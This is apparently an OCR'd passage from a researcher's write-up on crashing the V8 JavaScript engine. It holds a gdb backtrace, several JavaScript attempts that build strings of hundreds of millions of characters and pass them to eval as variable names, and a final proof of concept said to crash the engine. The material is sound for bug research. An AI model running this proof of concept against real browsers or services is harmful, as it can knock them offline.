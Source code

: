 ```
#17 0x00007ffff70ff2ef in (anonymous namespace)::(anonymous namespace)::__RT_impl_Runtime_ResolvePossiblyDirectEval (args=..., isolate=0x5555556113b0) at ../../src/runtime/runtime-compiler.cc:353
#18 0x00007ffff70feca2 in (anonymous namespace)::(anonymous namespace)::Runtime_ResolvePossiblyDirectEval (args_length=6, args_object=0x7fffffffc7d0, isolate=0x5555556113b0) at ../../src/runtime/runtime-compiler.cc:331

```
### Different ideas to allocate big string

My next ideas was check correct size for max String in v8. ( I know that I could find it in code but I decided to do it JS style).
### 1.
```
var name_function = "a".repeat(262144);
for(var i=0;i<2146435073;i+=1048576){
        name_function += 'x'.repeat(1048576)
        eval("var "+name_function+" = new Function('return');");
        console.log("Length is "+name_function.length.toString());
}
```
With "slightly" bigger first_value.
```
var first_value = 169869312;
var name_function = "a".repeat(first_value);
for(var i=first_value;i<2146435073;i+=1048576){
        name_function += 'x'.repeat(1048576)
        eval("var "+name_function+" = new Function('return');");
        console.log("Length is "+name_function.length.toString());
}
```

### 2.
```
final_size = 0xffffffff;
cur_size = 0;
var name_function = "";
while (cur_size < final_size){
        name_function+="a";
        cur_size+=1;
}
console.log("Length is "+name_function.length.toString());
eval("var "+name_function+" = new Function('return');");

```

Based on those failed attempts I decided to change the approach and add everything step by step.
That idea lead to this poc and this one crashed it "good way" :)

## Final poc:
```js
var first_value = 159383552;
var name_function = "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
name_function += "a".repeat(first_value);
console.log("Length is "+name_function.length.toString());
eval("var "+name_function+" = new Function('return');");
console.log("Length is "+name_function.length.toString());
```
